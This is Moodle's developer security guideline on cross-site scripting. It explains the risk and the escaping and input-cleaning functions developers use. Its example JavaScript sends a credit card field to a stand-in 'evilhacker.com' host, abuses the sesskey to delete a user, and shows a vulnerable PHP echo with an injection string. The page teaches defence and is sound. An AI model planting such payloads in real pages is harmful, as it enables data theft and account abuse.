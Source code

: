 ```yaml
---
title: Cross-site scripting
sidebar_position: 4
tags:
  - Coding guidelines
  - Policies
  - Security
---
```


:::note

This page forms part of the [Moodle security guidelines](../security).

:::

## What is the danger?

Normally, web browsers prevent JavaScript from the server from affecting content that comes from another server. For example, suppose that on your Moodle page (`http://mymooodle.com`), you have an iframe displaying an advert from `http://makemerich.com`. Then, the JavaScript code in the advert cannot access anything on your page.

In Moodle, we actually let users type in HTML, then we display that HTML as part of our web site. Therefore, any JavaScript they manage to include will have full access to everything on the page.

Why is that a problem? Well, suppose Evil Hacker manages to get some code like

```javascript
document.write('<img width="1" height="1" ' +
     'src="http://evilhacker.com/savedata.php?creditcard=' +
     document.getElementById('creditcard').value + '" />');
```

on a page where the user types in their credit card number. Actually, that scenario is quite unlikely in Moodle, but there are more plausible scenarios that are possible.

Another problem is that XSS makes it much easier for Evil Hacker get round sesskey protection. For example:

```javascript
document.write('<img width="1" height="1" ' +
     'src="http://example.com/moodle/user/delete.php?id=123&confirm=1&sesskey=' +
     document.getElementById('sesskey').value + '" />');
```

Or even more sophisticated, the JavaScript to do that as a POST request, in a forum where an Administrator would go, would be very bad.

Note that, at least in Internet Explorer, JavaScript can be hidden in CSS style information, as well as in the HTML. Java applets can also be used to execute scripting, as well as the browser's JavaScript engine.

Note also that dangerous content may not only be input into Moodle directly by a user. It may also come, for example, from an external RSS feed.

## How Moodle avoids this problem

The simplest solution to XSS attacks is to **never let the user input rich content** like HTML or upload plugins like Java applets. Unfortunately, with Moodle we want to let our users communicate using rich content. For example, we want students to be able to express themselves by making forum posts in flashing orange text. We want teacher to be able to upload interesting applets for use by their students. Therefore, we have to compromise.

### Escaping output

Moodle divides content that has been input by the user into four categories:

1. **Plain text content**. For example, a student's response to a short answer question.
2. **Labels that are plain text**, except that they main contain multi-lang spans. For example, a course name or section heading.
3. **HTML (or wiki, markdown) content**, that might have been input by anyone. For example, the body of a forum post.
4. **HTML (or wiki, markdown) content**, that could only have been input by a **trusted user**, like a teacher. For example, the body of a web page resource.

Depending on the type of content, you need to use the appropriate function to output it. For example, if you have plain text content, you should use the `s()` function to output it. That will replace any `<` character with `&lt;`. If that is done, there is no way that the input can be interpreted as JavaScript.

### Escaping output 2 - JavaScript

The other place you need to be careful is when you are sending data to JavaScript. For example, if you generate JavaScript in your PHP code like

```php
echo '<script type="text/javascript">';
echo 'alert("' . $userinput . '");';
echo '</script>';
```

and Evil hacker can make `$userinput` equal to something like:

```php
); /* Do something evil. */ (
```

then they can get whatever code they choose to put in the `/* Do something evil. */` space to run within your web page.

The best solution is to not echo JavaScript like this. Instead, follow the [JavaScript guidelines](/docs/guides/javascript), and put your JavaScript in an external file, and communicate with it using `$PAGE->requires->data_for_js` or `$PAGE->requires->js_function_call`. Those two methods properly encode any PHP data to be passed to JavaScript using `json_encode`.

### Cleaning input

The other part of the protection is cleaning up data as it comes in. This is done using the `optional_param` or `required_param` functions. For example, if you say you are expecting an integer as input, by passing `PARAM_INT`, then you will only get an integer back. Once you know that a variable only contains an integer value, you can be sure it does not contain any malicious JavaScript.

However, for very complex input, like HTML, doing the cleaning is very tricky, and the code is likely to handle some complex situations badly. The algorithms will almost certainly be improved in the future, so for complex content, we store the raw input in the database, and only do the cleaning when it is output, using the latest algorithms.

## What you need to do in your code

- Get input values using `optional_param` or `required_param` with an appropriate `PARAM_*` type, to ensure that only data of the type you expect is accepted.
- Alternatively, use a [moodleforms](/docs/apis/subsystems/form), with appropriate `->setType` calls in the form definition.
- Clean or escape content appropriately on output.
  - Use `s()` or `p()` to output plain text content (type 1 above).
  - Use `format_string` to output content with minimal HTML like multi-lang spans (type 2 above).
  - Use `format_text` to output all other content (types 3 and 4 above). How carefully it is cleaned (that is, the difference between type 3 and 4) depends on the `$options->noclean` argument to `format_text`.
- Any place where a use can input content that is output by `format_text`, `$options->noclean`, must be protected by a capability check, and the capability must be marked as `RISK_XSS`.
- When sending data to JavaScript code:
  - Use the `$PAGE->requires->data_for_js` or `$PAGE->requires->js_function_call` methods.
  - In Moodle 1.9 and earlier, escape the data with `addslashes_js` before printing it into the JavaScript code.

:::info

Follow the [Output functions](/docs/apis/subsystems/output#output-functions) link to get a best understanding of how dynamic data should be sent from Moodle to the browser.

:::

## What you need to do as an administrator

- Do not allow a user to have a capability with `RISK_XSS` unless you trust them.
  - The [Security overview](https://docs.moodle.org//en/Security_overview) report can help you check this.
- From Moodle 3.5 onwards, you can enable setting **Content cleaning everywhere**(`$CFG->forceclean`).

## See also

- [Security](../security)
- [Coding](/general/development/policies)
